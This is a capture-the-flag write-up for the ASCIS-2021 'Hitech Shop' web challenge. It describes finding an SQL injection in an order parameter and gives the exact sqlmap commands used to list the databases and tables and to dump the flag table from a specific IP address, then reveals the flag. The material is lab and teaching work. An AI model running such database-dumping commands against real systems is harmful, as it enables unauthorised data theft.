# ASCIS-2021 Warm-up - 100pts
* Category: Web 
* Name: Hitech Shop
* Level: None
* Description: None

## Solution
* Overview the challenge provided us a search box i think it `sql injection`
![Main function](./challenge.PNG) 
*  I try `double quote` and this is server response 
![Main function](./sqli.PNG)
* After that i save `request` from `BurpSuite` and scan it with sqlmap
![Main function](./request.PNG)
* Run this command in sqlmap `sqlmap -u http://125.235.240.166:20105/index?order=price --time-sec=200 --user-agent=* --dbs --level 5 `i found two databases, but i only attention `vannd` 
![Main function](./sqlmap0.PNG)
* Then i usage command `sqlmap -u http://125.235.240.166:20105/index?order=price --tables -D vannd` for scan `vand` table 
* Finally i found a table contain flag =))))
![Main function](./sqlmap1.PNG)
* Later i scan `flag` table usage this command `sqlmap -u http://125.235.240.166:20105/index?order=price --columns -D vannd -T flag --dump`
![Main function](./sqlmap2.PNG)
* FLAG `ASCIS{SQL_1nJecTi0n_Ba5e_0N_OrdeR_bY}`
